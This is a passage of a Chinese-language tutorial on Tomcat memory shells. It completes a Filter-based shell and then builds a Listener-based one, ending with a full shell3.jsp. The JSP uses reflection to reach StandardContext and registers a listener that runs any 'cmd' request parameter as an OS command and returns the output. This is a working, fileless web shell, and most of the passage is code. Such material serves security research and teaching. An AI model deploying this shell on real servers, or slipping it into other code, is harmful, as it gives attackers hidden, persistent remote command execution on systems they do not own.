applicationContext = (ApplicationContext) applicationField.get(servletContext); Field standardContextField = applicationContext.getClass().getDeclaredField("context" ); standardContextField.setAccessible(true ); StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext); FilterDef filterDef = new FilterDef (); filterDef.setFilterClass(Shellfilter.class.getName()); filterDef.setFilterName("Shellfilter" ); filterDef.setFilter(new Shellfilter ()); standardContext.addFilterDef(filterDef); FilterMap filterMap = new FilterMap (); filterMap.setFilterName("Shellfilter" ); filterMap.addURLPattern("/1y0ng" ); filterMap.setDispatcher(DispatcherType.REQUEST.name()); standardContext.addFilterMap(filterMap); Class configclass = Class.forName("org.apache.catalina.core.ApplicationFilterConfig" ); Constructor configconstructor = configclass.getDeclaredConstructor(Context.class,FilterDef.class); configconstructor.setAccessible(true ); FilterConfig filterConfig = (FilterConfig) configconstructor.newInstance(standardContext,filterDef); Field configsfield = standardContext.getClass().getDeclaredField("filterConfigs" ); configsfield.setAccessible(true ); Map filterConfigs = (Map) configsfield.get(standardContext); filterConfigs.put("Shellfilter" ,filterConfig); %> </body> </html>
服务器启动以后先访问/shll2.jsp，再访问/1y0ng并加上cmd参数，发现命令成功执行

filterConfigs中也带上了Shellfilter

Listener内存马
Listener主要分为三个大类：ServletContext监听、Session监听、Request监听
我们这里主要利用Request监听构造内存马
首先写个demo大致理解一下Listener的使用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 package com.example.listener;import javax.servlet.ServletRequestEvent;import javax.servlet.ServletRequestListener;public class Mylistener implements ServletRequestListener { private static int count = 0 ; public void requestDestroyed (ServletRequestEvent sre) { System.out.println("请求已经销毁" ); count--; System.out.println("当前请求数量：" + count); } public void requestInitialized (ServletRequestEvent sre) { System.out.println("请求已经初始化" ); count++; System.out.println("当前请求数量：" + count); } }
在web.xml中添加
1 2 3 <listener > <listener-class > com.example.listener.Mylistener</listener-class > </listener >
运行服务器，当发起一个请求的时候会依次调用requestInitialized和requestDestroyed方法

我们可以通过javax.servlet.ServletRequestEvent#getServletRequest方法拿到request,进而拿到response回显结果
1 2 3 4 5 ServletRequest servletRequest = sre.getServletRequest();Field requestF = servletRequest.getClass().getDeclaredField("request" );requestF.setAccessible(true ); Request request = (Request) requestF.get(servletRequest);request.getResponse()
故构造的恶意Mylistener.class如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 package com.example.listener;import org.apache.catalina.connector.Request;import javax.servlet.ServletRequest;import javax.servlet.ServletRequestEvent;import javax.servlet.ServletRequestListener;import java.io.InputStream;import java.io.PrintWriter;import java.lang.reflect.Field;import java.util.Scanner;public class Mylistener implements ServletRequestListener { public void requestDestroyed (ServletRequestEvent sre) { } public void requestInitialized (ServletRequestEvent sre) { ServletRequest servletRequest = sre.getServletRequest(); String cmd = servletRequest.getParameter("cmd" ); if (cmd!=null ) { try { boolean isLinux = true ; String osTyp = System.getProperty("os.name" ); if (osTyp != null && osTyp.toLowerCase().contains("win" )) { isLinux = false ; } String[] cmds = isLinux ? new String []{"sh" , "-c" , cmd} : new String []{"cmd.exe" , "/c" , cmd}; InputStream in = null ; in = Runtime.getRuntime().exec(cmds).getInputStream(); Field requestF = servletRequest.getClass().getDeclaredField("request" ); requestF.setAccessible(true ); Request request = (Request) requestF.get(servletRequest); Scanner s = new Scanner (in).useDelimiter("\\a" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = request.getResponse().getWriter(); out.println(output); out.flush(); out.close(); } catch (Exception e) { System.out.println(e); } } } }

同样找到org.apache.catalina.startup.ContextConfig#configureContext中和listener有关的部分如下

在这里打个断点debug一下就会发现listener并没有被放到context中

实际上这里对于注册ServletRequestListener不是通过addApplicationListener方法而是addApplicationEventListener方法

所以直接调用addApplicationEventListener就可以了
1 standardContext.addApplicationEventListener(new Shelllistener ());
所以完整的shell3.jsp为
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 <%@ page import ="java.io.InputStream" %> <%@ page import ="org.apache.catalina.connector.Request" %> <%@ page import ="java.util.Scanner" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="java.io.PrintWriter" %> <%@ page import ="org.apache.catalina.core.ApplicationContext" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page contentType="text/html;charset=UTF-8" language="java" %> <html> <head> <title>Title</title> </head> <body> <%! public class Shelllistener implements ServletRequestListener { public void requestDestroyed (ServletRequestEvent sre) { } public void requestInitialized (ServletRequestEvent sre) { ServletRequest servletRequest = sre.getServletRequest(); String cmd = servletRequest.getParameter("cmd" ); if (cmd!=null ) { try { boolean isLinux = true ; String osTyp = System.getProperty("os.name" ); if (osTyp != null && osTyp.toLowerCase().contains("win" )) { isLinux = false ; } String[] cmds = isLinux ? new String []{"sh" , "-c" , cmd} : new String []{"cmd.exe" , "/c" , cmd}; InputStream in = null ; in = Runtime.getRuntime().exec(cmds).getInputStream(); Field requestF = servletRequest.getClass().getDeclaredField("request" ); requestF.setAccessible(true ); Request request = (Request) requestF.get(servletRequest); Scanner s = new Scanner (in).useDelimiter("\\a" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = request.getResponse().getWriter(); out.println(output); out.flush(); out.close(); } catch (Exception e) { System.out.println(e); } } } } %> <% ServletContext servletContext = request.getServletContext(); Field applicationField = servletContext.getClass().getDeclaredField("context" ); applicationField.setAccessible(true ); ApplicationContext applicationContext = (ApplicationContext) applicationField.get(servletContext); Field standardContextField = applicationContext.getClass().getDeclaredField("context" ); standardContextField.setAccessible(true ); StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext); standardContext.addApplicationEventListener(new Shelllistener ()); %> </body> </html>
先访问/shell3.jsp再带入参数cmd就可以执行任意命令了

参考：
Java Memory Shell & Tomcat
JSP Webshell那些事 – 攻击篇(下)